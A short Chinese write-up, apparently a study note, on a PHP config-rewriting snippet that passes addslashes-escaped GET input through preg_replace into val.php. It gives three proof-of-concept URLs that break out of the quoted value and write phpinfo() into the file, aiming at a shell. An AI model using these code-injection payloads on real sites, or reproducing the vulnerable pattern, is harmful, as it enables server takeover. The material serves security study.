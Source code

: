 #P师傅的经典漏洞
>今天刚进P师傅的小密圈就发现大家都在讨论P师傅出的漏洞，看了下，窝草都是奇技淫巧啊，赶快拿出小本本记下来

**问题代码**
```php
<?php
$str = addslashes($_GET['option']);
echo $str;
$file = file_get_contents('val.php');
$file = preg_replace('|\$option=\'.*\';|',"\$option='$str';",$file);
echo $file;
file_put_contents('val.php',$file);
?>
```
大概解释下，是一个类似修改配置的操作，利用在于怎么去通过file_put_contents来getshell

1.**preg_replace的奇怪特性**
**POC**
```url
127.0.0.1/test/eval/test.php?option=\';phpinfo();//
```
```url
\\\';phpinfo();//<?php
$option='\\';phpinfo();//';
?>
```
可以发现，两次打印的内容并不相同，本来addslash后的三个\\\，preg_repalce后变成了两个\\，从而成功的闭合了单引号

2.**可多次写入替换的特性**
**POC**
```url
http://127.0.0.1/test/eval/test.php?option=xxxx%27;%0aphpinfo();//
http://127.0.0.1/test/eval/test.php?option=x
```
这样val.php的内容被替换成
```php
<?php
$option='x';
phpinfo();//';
?>
```
这里在第一次注入换行，然后在第二次替换时用x替换掉x\'（因为.*不会匹配换行，并且是贪婪匹配模式，如果是非贪婪.*?，可以不用换行）

3.**脑洞特性**
**POC**
第一次
```url
http://127.0.0.1/test/eval/test.php?option=;phpinfo();
```
源代码变为
```php
<?php
$option=';phpinfo();';
?>
```
第二次
```url
http://127.0.0.1/test/eval/test.php?option=%00
```
源代码变为
```php
<?php
$option='$option=';phpinfo();';';
?>
```
[http://www.php.net/manual/zh/function.preg-replace.php](http://www.php.net/manual/zh/function.preg-replace.php)--在这里写到在第二个参数replacement中<font color=red>“\\0和$0代表完整的模式匹配文本”</font>，强，无敌
